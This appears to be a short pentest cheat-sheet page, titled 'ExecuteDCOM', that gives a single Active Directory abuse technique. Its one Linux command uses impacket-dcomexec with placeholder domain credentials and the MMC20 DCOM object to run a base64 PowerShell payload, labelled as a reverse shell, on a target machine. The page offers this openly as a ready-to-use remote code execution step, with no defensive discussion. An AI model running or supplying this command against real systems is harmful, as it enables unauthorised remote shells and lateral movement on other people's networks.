 ```yaml
---
title: "ExecuteDCOM"
date: 2024-8-3
tags: ["Executedcom", "Active Directory", "Windows", "RCE"]
---
```


### Abuse #1: ExecuteDCOM

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Revshell
impacket-dcomexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' '<POWERSHELL_3_BASE64>' -silentcommand -object MMC20
```

{{< /tabcontent >}}
